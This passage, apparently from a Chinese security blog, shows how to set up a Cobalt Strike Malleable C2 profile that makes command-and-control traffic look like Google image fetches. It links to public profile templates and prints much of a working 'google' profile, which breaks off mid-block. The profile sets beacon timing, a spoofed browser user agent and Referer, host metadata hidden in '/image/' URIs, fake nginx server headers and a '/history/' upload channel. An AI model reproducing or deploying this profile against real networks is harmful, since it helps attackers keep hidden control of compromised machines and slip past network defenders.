 google.profile 模版可以参考 C2.profile（https://github.com/rsmudge/Malleable-C2-Profiles/tree/master/APT）和 malleable-c2 （https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.0.profile）设置后，可以看到访问 / image / 后已经返回的是我们设置好的 header 了 "Content-Type" "img/jpg"; "Server" "nginx/1.10.3 (Ubuntu)";

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk64GPWqJwjia7fldZfSnQkZKlckngGxUgpOGQIrSAE1t3Og9XfPWmEoXA/640?wx_fmt=jpeg)

部分引用源码如下：

```
#
# cs profile
#   http://www.secureworks.com/cyber-threat-intelligence/threats/secrets-of-the-comfoo-masters/
#   https://github.com/rsmudge/Malleable-C2-Profiles/
# Author: @keyi
#

set sample_name "google";

set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/5.0)";

http-get {

    set uri "/image/";

    client {

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*l;q=0.8";
        header "Referer" "http://www.google.com";
        header "Pragma" "no-cache";
        header "Cache-Control" "no-cache";

        metadata {
            netbios;
            append "-.jpg";
            uri-append;
        }
    }

    server {

        header "Content-Type" "img/jpg";
        header "Server" "nginx/1.10.3 (Ubuntu)";

        output {
            base64;
            print;
        }
    }
}

http-post {
    set uri "/history/";

    client {

        header "Content-Type" "application/octet-stream";
        header "Referer" "http://www.google.com";
        header "Pragma" "no-cache";
        header "Cache-Control" "no-cache";

        id {
```